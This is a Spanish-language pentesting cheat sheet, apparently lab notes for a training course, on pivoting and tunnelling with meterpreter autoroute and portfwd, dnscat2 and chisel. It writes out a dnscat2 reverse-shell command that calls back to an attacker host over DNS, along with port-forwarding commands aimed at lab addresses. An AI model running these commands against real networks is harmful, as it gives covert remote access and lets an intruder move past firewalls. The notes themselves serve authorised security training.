 #### Desde meterpreter
```bash
meterpreter > run autoroute 172.16.0.5/23
```
#### Listar rutas activas
```bash
meterpreter > run autoroute -p
```
### Port forwarding
#### Local port forwarding
```bash
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```
`-l` listener, `-r` remote, `-p` port
#### Remote port forwarding
```bash
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
```
Redirige el tráfico del puerto `1234` de la máquina víctima al puerto `8081` de nuestra pwnbox
## Dnscat2
**`dnscat2`** es una herramienta de **comunicación a través del protocolo DNS**, diseñada para crear túneles y canales de comunicación en situaciones en las que otros protocolos de red están bloqueados. Envía datos a través de consultas de subdominios DNS e infiltra datos con registros TXT y otros. 
Vemos un ejemplo de cómo ejecutar una revshell con este protocolo
### Servidor - máquina atacante
```bash
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache
```
Esto proporciona una clave privada que hay que proporcionar al cliente
### Cliente - máquina pivote - Ejemplo `dnscat.ps1`
Tras descargar el archivo en la máquina pivote ejecutamos lo siguiente
```powershell
PS > Import-Module .\dnscat2.ps1
PS > Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -preSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd 
# Si todo va bien aparecerá el siguiente mensaje: 
New window created: 1
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
# Podemos listar opciones con 
?
# Podemos interactuar con la sesión escribiendo 
window -i 1
```
## Chisel
Herramienta escrita en go que permite crear túneles TCP/UDP entre sistemas
### Modo servidor
Se ejecuta en la `pwnbox`
```bash
./chisel server -p 8000 --reverse -v
```
### Modo cliente
#### Redirección de un puerto 
Ejecutar este comando en la máquina pivote redirigiría el puerto `8001` de nuestra máquina (`localhost`) al puerto `80` de `172.16.5.1`
```bash
./chisel client 10.10.14.114:8000 R:8001:172.16.5.1:80 -v 
# Significado: 
R:<listen_host>:<listen_port>:<target_host>:<target_port>
```